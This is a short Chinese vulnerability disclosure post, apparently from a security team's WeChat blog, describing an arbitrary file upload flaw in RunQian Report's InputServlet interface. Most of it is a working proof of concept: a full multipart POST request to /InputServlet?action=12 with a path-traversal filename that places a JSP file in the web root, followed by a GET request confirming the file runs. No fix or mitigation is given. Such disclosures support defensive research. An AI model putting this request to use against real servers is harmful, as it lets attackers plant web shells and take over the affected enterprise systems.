 #  润乾报表InputServlet接口存在任意文件上传漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
# 1. 漏洞描述  
  
  
    润乾报表是一个纯JAVA的企业级报表工具，支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，支持各种常见的关系数据库和各类J2 EE的应用服务器，客户端采用标准纯html方式展现，支持ie和netscape， 润乾报表是领先的企业级报表分析软件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk29AkQPbtib10CGiaUek83SkSAPVIfMFoibnqJSy0VVfehveEet6Kdm96g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /InputServlet?action=12 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=00contentOboundary00
Connection: close
Content-Length: 238

--00contentOboundary00
Content-Disposition: form-data; name="upsize"

1024
--00contentOboundary00
Content-Disposition: form-data; name="file"; filename="/\..\\..\\..\12.jsp"
Content-Type: image/jpeg

test
--00contentOboundary00--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkgkknC63fB2r4g031ZDVEc50t5icIGqmq2tRKfF2n480FtCxbcYUrysw/640?wx_fmt=png&from=appmsg "")  
  
    拼接路径，尝试访问上传文件"12.jsp"，查看文件是否上传成功，文件是否能够解析。  
```
GET /12.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk6x8mMFpAibZ8YWMibyEJ4T0S1gBT6SriclRDA3lOicAF5bavSpRWY6ONcA/640?wx_fmt=png&from=appmsg "")  
  
可以看到文件成功解析，打印出test。  
  

